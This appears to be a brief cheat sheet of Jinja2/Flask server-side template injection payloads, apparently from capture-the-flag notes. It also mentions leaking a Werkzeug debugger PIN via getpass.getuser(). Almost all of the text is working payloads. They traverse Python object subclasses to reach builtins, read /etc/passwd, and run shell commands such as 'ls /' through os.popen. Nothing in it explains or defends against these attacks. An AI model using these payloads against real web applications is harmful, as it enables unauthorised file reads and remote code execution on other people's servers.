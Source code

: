 PIN use getpass.getuser(), leak from Werkzeug:
```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__=='catch_warnings' %}
{{ c.__init__.__globals__['__builtins__'].open('/etc/passwd','r').read() }}
{% endif %}
{% endfor %}
```

ssti:
```
{{request.__init__.__globals__['__builtins__'].open('/etc/passwd').read()}}  

{{request.application.__globals__['__builtins__'].open('/etc/passwd').read()}}
```

Alternative __enter__ or __exit__:
```
{{().__class__.__bases__[0].__subclasses__()[213].__enter__.__globals__['__builtins__']['open']('/etc/passwd').read()}}   

{{().__class__.__bases__[0].__subclasses__()[213].__exit__.__globals__['__builtins__']['open']('/etc/passwd').read()}}

```

get l
```
{{[].__class__.__base__.__subclasses__()[84]["load_module"]("os")["popen"]("ls /").read()}}
```


